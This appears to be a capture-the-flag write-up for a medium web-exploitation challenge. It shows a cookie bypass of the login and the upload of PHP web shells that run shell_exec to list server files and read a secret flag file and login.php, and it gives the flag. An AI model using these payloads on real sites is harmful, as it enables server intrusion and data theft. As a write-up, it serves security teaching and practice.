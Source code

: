 # Interesting blog
**_Web Exploitation_** \
Difficulty: Medium

### 1. Bypass the authentication
**a. using the `loggedin` cookie** \
Change the value of this cookie using Web Dev Tools from 0 to 1 and refresh the page.
> I have personally used this method due to an obvious hint about the usage of cookies.

**b. using the hardcoded password** \
Will be explained lower.

As a result additional section that lets you upload an image should show up.

### 2. Upload a proper file
You can use this section to upload any file you want to the server.

> This site doesn't check if you actually uploaded an image or not.
There are only checks if the file isn't too heavy that aren't a threat for us in this case.

We can use this vulnerability to upload PHP file with code that will be executed in the server.
While inspecting the website's code I realised that all the files are uploaded to `images` folder.
Then let's list all the files in the parent folder.
```php
<?php
    print shell_exec('ls -R ..');
?>
```

_Output:_
```
..:
images
index.php
login.php
logout.php
s3krEtyT4b0r3TY
style.css
upload.php

../images:
Najlepszepiwo.jpeg
eiti.jpeg
elektryczny.jpeg
emerytura.jpeg
ja.jpeg
injection.php
prezent_urodzinowy.jpeg
wains.jpeg
```

### 3. Reading the flag
`s3krEtyT4b0r3TY` seems like a file that might contain a flag. Let's upload another PHP file to check!
```php
<?php
    print shell_exec('cat ../s3krEtyT4b0r3TY');
?>
```

### 4. Result
File: `s3krEtyT4b0r3TY` \
Flag: `EE_CTF{t0_T3n_C4Ly_4rB1TrAry_C0d3_3xeCVt10n}`

### 5. Reference to 1b)
While executing the following PHP code:
```php
<?php
    print shell_exec('cat ../login.php');
?>
```
I have noticed that there might be another vulnerability related to accessing the hardcoded password. However, I didn't find out how exactly this could be done.